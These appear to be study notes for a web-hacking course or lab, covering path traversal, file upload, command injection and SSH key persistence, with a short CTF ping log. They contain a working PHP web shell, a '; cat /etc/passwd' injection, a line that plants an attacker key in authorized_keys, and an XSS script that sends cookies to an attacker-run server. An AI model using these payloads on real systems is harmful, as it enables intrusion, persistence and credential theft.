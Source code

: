 Server-Side Injection

    Ability to read/execute outside web server's directory
    Uses ../../ (relative Paths) in manipulating a server-side file path
    www-data is the user that web servers on ubuntu or Apache, Nginx

Malicious File Upload

    Server Doesnt Validate extension or size
    Allows or code execution (shell)
    Once uploaded
        Find your file
        Call your file

Establishes a shell

<HTML><BODY>
  <FORM METHOD="GET" NAME="myform" ACTION="">
  <INPUT TYPE="text" NAME="cmd">
  <INPUT TYPE="submit" VALUE="Send">
  </FORM>
  <pre>
  <?php
  if($_GET['cmd']) {
    system($_GET['cmd']);
    }
  ?>
  </pre>
  </BODY></HTML>

Command Injection

    User input not validated
    Might contain the following in it’s code:

system("ping -c 1 ".$_GET["ip"]);

    Run the following to chain/stack our arbitrary command

; cat /etc/passwd

Key Regen (SSH)

ssh-keygen -t rsa -b 4096
cat  /.ssh/id_rsa.pub
echo "your key" > /var/www/.ssh/authorized_keys

Demo

python3 -m http.server # This makes a webserver
<script>document.location="http://10.50.30.231:8000/"+document.cookie;</script> # This script steals cookies from users and sends it to our webserver

CTF

64 bytes from 10.100.28.33: icmp_seq=1 ttl=64 time=0.191 ms
64 bytes from 10.100.28.34: icmp_seq=1 ttl=63 time=1.31 ms
64 bytes from 10.100.28.35: icmp_seq=1 ttl=63 time=2.58 ms
64 bytes from 10.100.28.40: icmp_seq=1 ttl=63 time=0.593 ms
64 bytes from 10.100.28.48: icmp_seq=1 ttl=63 time=0.608 ms

